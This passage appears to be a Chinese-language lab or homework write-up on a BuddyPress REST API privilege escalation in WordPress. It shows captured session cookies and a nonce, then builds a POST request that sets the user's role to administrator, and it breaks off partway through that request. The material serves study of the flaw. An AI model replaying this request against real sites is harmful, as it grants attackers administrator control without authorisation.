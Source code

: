    ![1747889012605](image/homework/1747889012605.png)
    **cookie:**
        ```
        grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821
        ```
        **X-WP-Nonce:** ``cb16f80772``

3. **构造提权请求**
   - 使用提取的 `X-WP-Nonce` 和 `Cookie` 构造 POST 请求，发送到 `/wp-json/buddypress/v1/members/me`。
   - 请求体如下：
     ```json
     {"roles": "administrator"}
     ```
   - 完整请求包：
        ```http
        POST /wp-json/buddypress/v1/members/me HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        X-WP-Nonce: cb16f80772